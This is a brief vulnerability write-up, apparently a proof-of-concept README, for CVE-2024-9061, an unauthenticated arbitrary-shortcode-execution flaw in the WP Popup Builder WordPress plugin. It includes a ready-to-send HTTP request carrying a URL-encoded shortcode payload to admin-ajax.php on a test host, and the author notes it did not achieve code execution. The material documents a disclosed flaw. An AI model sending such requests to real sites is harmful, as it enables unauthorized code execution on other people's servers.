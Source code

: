 # CVE-2024-9061
WP Popup Builder – Popup Forms and Marketing Lead Generation &lt;= 1.3.5 - Unauthenticated Arbitrary Shortcode Execution via wp_ajax_nopriv_shortcode_Api_Add

# Description

The The WP Popup Builder – Popup Forms and Marketing Lead Generation plugin for WordPress is vulnerable to arbitrary shortcode execution via the wp_ajax_nopriv_shortcode_Api_Add AJAX action in all versions up to, and including, 1.3.5. This is due to the software allowing users to execute an action that does not properly validate a value before running do_shortcode. This makes it possible for unauthenticated attackers to execute arbitrary shortcodes. NOTE: This vulnerability was partially fixed in version 1.3.5 with a nonce check, which effectively prevented access to the affected function. However, version 1.3.6 incorporates the correct authorization check to prevent unauthorized access.

I had another plugin installed for php execution for this but never got it to execute.

[xyz-ips snippet="test"]

# Info

```
Type: plugin
CVSS Score: 7.3
CVE: CVE-2024-9061
Slug: wp-popup-builder
Download Link: Download [wp-popup-builder Version 1.3.2](https://downloads.wordpress.org/plugin/wp-popup-builder.1.3.2.zip)
```

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: wpscan-vulnerability-test-bench.ddev.site
User-Agent: curl/8.7.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Connection: keep-alive

action=shortcode_Api_Add&shortcode=%5b%78%79%7a%2d%69%70%73%20%73%6e%69%70%70%65%74%3d%22%74%65%73%74%22%5d
```

Response is a blank 200
